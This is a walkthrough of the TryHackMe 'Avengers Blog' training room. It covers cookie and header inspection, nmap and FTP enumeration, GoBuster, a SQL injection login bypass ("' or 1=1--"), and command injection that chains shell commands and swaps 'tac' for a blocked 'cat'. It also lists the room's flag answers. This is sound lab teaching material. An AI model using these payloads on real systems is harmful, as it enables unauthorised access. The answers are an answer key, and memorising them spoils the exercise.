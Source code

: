 Learn to hack into Tony Stark's machine! You will enumerate the machine, bypass a login portal via SQL injection and gain root access by command injection.


### TASk 1: Deploy

  

 Start Machine

![](https://i.imgur.com/tnuaYCG.png)  

Connect to our network and deploy the Avengers Blog machine 

Answer the questions below

1. Connect to our network by going to your [access page](https://tryhackme.com/access). This is important as you will not be able to access the machine without connecting!


2. Deploy the machine by clicking the green "Deploy" button on this task and access its webserver.




### TASK 2: Cookies


HTTP Cookies is a small piece of data sent from a website and stored on the user's computer by the user's web browser while the user is browsing. They're intended to remember things such as your login information, items in your shopping cart or language you prefer.

Advertisers can use also _tracking_ cookies to identify which sites you've previously visited or where about's on a web-page you've clicked. Some tracking cookies have become so intrusive, many anti-virus programs classify them as spyware.

You can view & dynamically update your cookies directly in your browser. To do this, press **F12** (or right click and select _Inspect_) to open the developer tools on your browser, then click _Application_ and then _Cookies._


1. On the deployed Avengers machine you recently deployed, get the flag1 cookie value.

![[Pasted image 20210612142123.png]]

*ANSWER:* cookie_secrets


### TASK 3: HTTP Headers


HTTP Headers let a client and server pass information with a HTTP request or response. Header names and values are separated by a single colon and are integral part of the HTTP protocol.

![](https://i.imgur.com/GlCdRIM.png)  

The main two HTTP Methods are POST and GET requests. The GET method us used to request data from a resource and the POST method is used to send data to a server.

We can view requests made to and from our browser by opening the _Developer Tools_ again and navigating to the _Network_ tab. Have this tab open and refresh the page to see all requests made. You will be able to see the original request made from your browser to the web server.



1. Look at the HTTP response headers and obtain flag 2.

![[Pasted image 20210612144454.png]]

*ANSWER:* headers_are_important



### TASK 4: Enumeration and FTP:


In this task we will scan the machine with nmap (a network scanner) and access the FTP service using reusable credentials.

Lets get started by scanning the machine, you will need nmap. If you don't have the application installed you can use our web-based AttackBox that has nmap pre-installed.

[](https://tryhackme.com/room/kali)

In your terminal, execute the following command:  
`nmap <machine_ip> -v`  

 This will scan the machine and determine what services on which ports are running. For this machine, you will see the following ports open:

![](https://i.imgur.com/UjXizy4.png)  

Port 80 has a HTTP web server running on  
Port 22 is to SSH into the machine  
Port 21 is used for FTP (file transfer)

We've accessed the web server, lets now access the FTP service. If you read the Avengers web page, you will see that Rocket made a post asking for Groot's password to be reset, the post included his old password too!

In your terminal, execute the following command:  
`ftp <machine_ip>`

We will be asked for a username (_groot_) and a password (_iamgroot_). We should have now successfully logged into the FTP share using Groots credentials!


1. Look around the FTP share and read flag 3!

*HINT:* You might have to enter passive mode when accessing the FTP share.

`
ashik@whitedevil:~/Downloads/Tools$ nmap -p 21,22,80 -A -T4 10.10.251.62  
Starting Nmap 7.80 ( https://nmap.org ) at 2021-06-12 14:53 IST  
Nmap scan report for 10.10.251.62  
Host is up (0.38s latency).  
  
PORT   STATE SERVICE VERSION  
21/tcp open  ftp     vsftpd 3.0.3  
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:    
|   2048 5a:64:24:7b:cd:76:0f:17:92:3e:0c:18:83:56:bb:4e (RSA)  
|   256 c4:24:77:b1:56:02:06:aa:81:35:ff:db:f2:bd:8c:d2 (ECDSA)  
|\_  256 e7:f0:4b:8b:d2:4c:d3:48:b9:5c:c2:48:7d:72:69:cb (ED25519)  
80/tcp open  http    Node.js Express framework  
|\_http-title: Avengers! Assemble!  
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux\_kernel  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 20.45 seconds
`


**FTP LOGIN**

`
ashik@whitedevil:~/Downloads/Tools$ ftp 10.10.251.62  
Connected to 10.10.251.62.  
220 (vsFTPd 3.0.3)  
Name (10.10.251.62:ashik): groot  
331 Please specify the password.  
Password:  
230 Login successful.  
Remote system type is UNIX.  
Using binary mode to transfer files.  
ftp> ls  
200 PORT command successful. Consider using PASV.  
150 Here comes the directory listing.  
drwxr-xr-x    2 1001     1001         4096 Oct 04  2019 files  
226 Directory send OK.  
ftp> cd files  
250 Directory successfully changed.  
ftp> ls  
200 PORT command successful. Consider using PASV.  
150 Here comes the directory listing.  
\-rw-r--r--    1 0        0              33 Oct 04  2019 flag3.txt  
226 Directory send OK.  
ftp> get flag3.txt  
local: flag3.txt remote: flag3.txt  
200 PORT command successful. Consider using PASV.  
150 Opening BINARY mode data connection for flag3.txt (33 bytes).  
226 Transfer complete.  
33 bytes received in 0.00 secs (177.0690 kB/s)  
ftp> exit  
221 Goodbye.
`

*ANSWER:* 8fc651a739befc58d450dc48e1f1fd2e

### TASK 5: GoBuster

Lets use a fast directory discovery tool called GoBuster. This program will locate a directory that you can use to login to Mr. Starks Tarvis portal!

GoBuster is a tool used to brute-force URIs (directories and files), DNS subdomains and virtual host names. For this machine, we will focus on using it to brute-force directories.

You can either download GoBuster, or use the Kali Linux machine that has it pre-installed.

Lets run GoBuster with a wordlist (on Kali they're located under **/usr/share/wordlists**):  
`gobuster dir -u http://<machine_ip> -w <word_list_location>`


1. What is the directory that has an Avengers login?

*ANSWER:* /portal



### TASK 6: SQL Injection

![](https://i.imgur.com/wTsQFw0.png)

You should now see the following page above. We're going to manually exploit this page using an attack called SQL injection.

SQL Injection is a code injection technique that manipulates an SQL query. You can execute you're own SQL that could destroy the database, reveal all database data (such as usernames and passwords) or trick the web server in authenticating you.

To exploit SQL, we first need to know how it works. A SQL query could be `SELECT * FROM Users WHERE username = {User Input} AND password = {User Input 2}` , if you insert additional SQL as the {User Input} we can manipulate this query. For example, if I have the {User Input 2} as `' 1=1` we could trick the query into authenticating us as the **'** character would break the SQL query and 1=1 would evaluate to be true.

To conclude, having our first {User Input} as the username of the account and {User Input 2} being the condition to make the query true, the final query would be:  
``SELECT * FROM Users WHERE username = `admin` AND password = `' 1=1` ``  

This would authenticate us as the admin user.


1. Log into the Avengers site. View the page source, how many lines of code are there?

*HINT:* Have the username and password as ' or 1=1-- (include the apostrophe).

`Login: ' or 1=1--
Password: ' or 1=1--`

*ANSWER:* 223


### TASK 7: Remote Code Execution and Linux

![](https://i.imgur.com/G5ciwcD.png)

You should be logged into the Jarvis access panel! Here we can execute commands on the machine.. I wonder if we can exploit this to read files on the system.

Try executing the `ls` command to list all files in the current directory. Now try joining 2 Linux commands together to list files in the parent directory: `cd ../; ls` doing so will show a file called flag5.txt, we can add another command to read this file: `cd ../; ls; cat flag5.txt`

But oh-no! The cat command is disallowed! We will have to think of another Linux command we can use to read it!



![[Pasted image 20210612150413.png]]
`cd ../; ls; cat flag5.txt` = it's says command disallow

so we can read the file in reverse

`cd ../; ls; tac flag5.txt`


![[Pasted image 20210612150554.png]]

*ANSWER:* d335e2d13f36558ba1e67969a1718af7


